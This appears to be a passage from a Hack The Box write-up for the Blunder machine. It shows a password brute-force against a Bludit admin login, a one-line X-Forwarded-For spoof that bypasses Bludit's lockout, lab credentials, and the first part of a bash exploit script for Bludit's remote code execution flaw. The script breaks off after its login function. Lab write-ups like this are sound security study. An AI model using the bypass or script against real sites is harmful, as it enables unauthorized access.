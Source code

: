 ```bash
```

The script takes in three arguments: (1) the username, (2) the password list, and (3) the number of jobs to run in parallel. The password list is generated from `cewl`.

{% include image.html image_alt="9d01158b.png" image_src="/1931add6-7d26-41c0-9867-592733e4a116/9d01158b.png" %}

Turns out that `fergus` is the username and the password is `RolandDeschain`. One more thing. Bludit has brute-force protection but it can be easily bypassed with a header like `X-Forwarded-For`. Check out this line.

```
-H "X-Forwarded-For: 10.10.16.$(($RANDOM % 255))"
```

I had `bash` generate a different last octet of the client IP address. Bludit took it in like a champion.

{% include image.html image_alt="8bd22e28.png" image_src="/1931add6-7d26-41c0-9867-592733e4a116/8bd22e28.png" %}

Boom!

### Remote Code Execution in Bludit < 3.9.2

On to the main event—getting that initial foothold. There's a remote code execution vulnerability in Bludit 3.9.2 as reported in [#1081](https://github.com/bludit/bludit/issues/1081). I wrote this exploit following that.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.191
COOKIE=$(mktemp -u)
PROXY=127.0.0.1:8080
USER=fergus
PASS=RolandDeschain
FILE=$1

function get() {
    local BODY="$1"
    local WHAT=$2
    local VALUE=$(echo "$BODY" \
                  | grep -Eo "name=\"$WHAT\" value=\"[0-9a-f]+\"" \
                  | cut -d ' ' -f2 \
                  | sed -r 's/value=//g' \
                  | tr -d '"')
    echo $VALUE
}

function login() {
    local BODY="$(curl -s -c $COOKIE http://$HOST/admin/)"

    # get CSRF token
    local CSRF=$(get "$BODY" "tokenCSRF")

    # login attempt
    CODE=$(curl -s \
                -b $COOKIE \
                -d "tokenCSRF=$CSRF&username=$USER&password=$PASS&save=" \
                -w "%{http_code}" \
                -o /dev/null \
                "http://$HOST/admin/")
}

```

[1]: https://www.hackthebox.eu/home/machines/profile/254
[2]: https://www.hackthebox.eu/home/users/profile/94858
[3]: https://www.hackthebox.eu/